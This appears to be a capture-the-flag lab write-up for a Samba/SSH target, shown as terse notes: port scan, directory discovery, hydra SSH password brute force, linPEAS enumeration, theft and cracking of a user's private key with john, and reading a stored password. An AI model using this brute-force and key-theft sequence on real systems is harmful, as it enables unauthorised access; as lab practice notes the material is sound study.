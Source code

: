 #Basic info

```
ip_addr = 10.10.60.20

open port:
	22/tcp OpenSSH 7.2p2 Ubuntu
	80/tcp Apache httpd 2.4.18
	139/tcp netbios-ssn Samba smbd 3.X -4.X
	445/tcp netbios-ssn Samba smbd 4.3.11-Ubuntu
```

#Dirbuster

```
hidden dir on http:
	/development
```

#Credentials

```
user found:
	kay
	jan

hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.174.22
password found:
	jan: armando
```

#Enumeration

```
scp /opt/linPeas/linPeas.sh jan@10.10.60.20:/dev/shm
./linPeas | tee linlog.txt
id_rsa found in /home/kay/.ssh/id_rsa
download with scp
```

#Brute force id_rsa

```
id_rsa downloaded is protected by password
running /usr/share/john/ssh2john.py id_rsa > id_rsa_crack
john id_rsa_crack --wordlist=/usr/share/wordlists/rockyou.txt
password found: beeswax
```

#ssh into machine with user kay

```
chmod id_rsa 600				ssh will only use file that is only readable by root (-rw-------)
ssh -i id_rsa kay@10.10.60.20
cat pass.bak
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```